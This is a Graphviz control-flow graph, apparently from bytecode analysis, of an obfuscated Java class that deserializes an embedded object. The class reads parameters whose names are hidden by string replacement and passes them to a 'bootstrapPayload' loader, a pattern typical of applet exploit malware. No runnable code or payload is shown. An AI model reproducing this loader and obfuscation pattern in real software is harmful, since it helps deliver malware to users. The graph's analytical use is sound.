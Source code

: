 digraph "" {
    "r0 := @this: dev.s.AdgredY"
    "new java.io.ObjectInputStream"
    "r0 := @this: dev.s.AdgredY"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "staticget <dev.s.AdgredY: java.lang.String serializedObject>"
    "dup1.r"->"staticget <dev.s.AdgredY: java.lang.String serializedObject>";
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"
    "staticget <dev.s.AdgredY: java.lang.String serializedObject>"->"staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "load.r r0"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"load.r r0";
    "push \"cc\""
    "load.r r0"->"push \"cc\"";
    "push \"`\""
    "push \"cc\""->"push \"`\"";
    "push \"\""
    "push \"`\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"dajjjjta\""
    "load.r r0"->"push \"dajjjjta\"";
    "push \"j\""
    "push \"dajjjjta\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "ifnull goto return"
    "store.r r0"->"ifnull goto return";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "ifnull goto return"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"ifnull goto return";
    "ifnull goto return"->"load.r r0";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "load.r r0"->"ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r r0";
    "store.r r0"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"load.r r0";
    "load.r r9"
    "load.r r0"->"load.r r9";
    "virtualinvoke <dev.s.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"
    "load.r r9"->"virtualinvoke <dev.s.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>";
    "goto return"
    "virtualinvoke <dev.s.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <dev.s.LoaderX: void bootstrapPayload(java.lang.String,java.lang.String)>"->"store.r r0";
}
